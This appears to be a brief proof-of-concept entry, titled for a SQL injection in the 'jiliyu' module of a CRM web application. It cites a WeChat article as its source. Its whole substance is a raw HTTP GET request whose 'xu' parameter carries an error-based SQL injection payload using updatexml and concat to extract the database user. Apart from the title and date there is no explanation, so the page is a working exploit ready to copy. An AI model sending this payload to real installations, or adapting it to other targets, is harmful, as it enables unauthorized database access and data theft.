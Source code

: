 # bgkcrm_jiliyu_sqli

from: https://mp.weixin.qq.com/s/4kLvkQTSNxHtep5RarGeOA
2024.3.18 @2
```
GET /index.php/jiliyu?keyword=1&page=1&pai=id&sou=soufast&timedsc=激励语列表&xu=and%201=(updatexml(1,concat(0x7e,(select%20user()),0x7e),1)) HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
```
